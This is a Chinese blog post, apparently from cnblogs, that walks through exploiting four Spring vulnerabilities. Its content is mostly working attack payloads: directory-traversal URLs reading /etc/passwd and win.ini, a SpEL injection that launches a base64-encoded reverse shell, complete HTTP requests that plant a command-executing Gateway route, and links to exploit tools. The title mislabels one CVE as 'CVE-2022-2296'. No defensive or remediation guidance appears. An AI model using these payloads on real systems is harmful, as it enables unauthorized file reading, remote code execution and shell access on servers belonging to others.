

# Spring Boot 目录遍历--表达式注入--代码执行--(CVE-2021-21234)&&(CVE-2022-22963)&&(CVE-2022-22947)&&(CVE-2022-2296) - 了了青山见 - 博客园

> 原文：[`www.cnblogs.com/Pengj/p/17729309.html`](https://www.cnblogs.com/Pengj/p/17729309.html)

# Spring Boot 目录遍历--表达式注入--代码执行--(CVE-2021-21234)&&(CVE-2022-22963)&&(CVE-2022-22947)&&(CVE-2022-2296)

## Spring Boot 目录遍历 （CVE-2021-21234）

### 漏洞简介

spring-boot-actuator-logview 是一个简单的日志文件查看器作为 Spring Boot 执行器端点，在 0.2.13 版本之前存在着目录遍历漏洞，编号 CVE-2021-21234。漏洞本质是 Spring Boot 执行器通过请求的参数来指定文件名和文件夹路径，经过组合拼接达到目录遍历，虽然源码中检查了文件名（filename）参数来防止目录遍历，但是没有检查文件夹（base）参数，造成了目录遍历

### 影响范围

spring-boot-actuator-logview < 0.2.13

### 漏洞复现

> Windows:
> http://<target_url>/manage/log/view?filename=/windows/win.ini&base=../../../../../../../../../../
> http://<target_url>/log/view?filename=/windows/win.ini&base=../../../../../../../../../../
> Linux:
> http://<target_url>/manage/log/view?filename=/etc/passwd&base=../../../../../../../../../../
> http://<target_url>/log/view?filename=/etc/passwd&base=../../../../../../../../../../

## Spring Cloud Function Spel 表达式注入（CVE-2022-22963）

### 漏洞简介

Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

### 影响范围

3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

### 漏洞复现

POC:

> POST：/functionRouter

> spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,反弹 shell 命令 base64 编码}|{base64,-d}|{bash,-i}")

## Spring Cloud Gateway 远程代码执行漏洞（CVE-2022-22947）

### 漏洞简介

Spring Cloud Gateway 是基于 Spring Framework 和 Spring Boot 构建的网关，它旨在为微服务架构提供一种简单、有效、统一的 API 路由管理方式。当启用或暴露不安全的 Gateway Actuator 端点时，使用 Spring Cloud Gateway 的应用程序容易受到代码注入攻击，远程攻击者可以通过发送恶意请求以执行 SpEL 表达式，从而在目标服务器上执行任意恶意代码，获取系统权限

### 影响范围

Spring Cloud Gateway 3.1.x < 3.1.1
Spring Cloud Gateway 3.0.x < 3.0.7
其他旧的、不受支持的 Spring Cloud Gateway 版本

### 漏洞复现

*   手工复现
    添加执行 id 命令的名为 test 的路由，状态码返回 201 即正确添加

```
POST /actuator/gateway/routes/test HTTP/1.1
Host: 目标主机
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json
Content-Length: 333

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
} 
```

刷新路由，状态码返回 200 正确

```
POST /actuator/gateway/refresh HTTP/1.1
Host:目标主机
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```

直接访问路由

```
/actuator/gateway/routes/test 
```


*   自动化工具
    [SpringBootExploit](https://github.com/0x727/SpringBootExploit)
    
    直接访问地址执行命令即可

```
/?cmd= 
```

## Spring Framework 远程代码执行漏洞 （CVE-2022-22965）

### 漏洞参考

[深度解析丨 Spring 框架远程命令执行漏洞复现及流量特征分析（CVE-2022-22965）](https://www.csdn.net/article/2022-11-24/128026635) 

### 自动化工具

[Spring4Shell-POC](https://github.com/BobTheShoplifter/Spring4Shell-PoC)
[SpringBoot-Scan](https://github.com/AabyssZG/SpringBoot-Scan)
不知到为啥，手工和工具都有可能翻车，多试几次。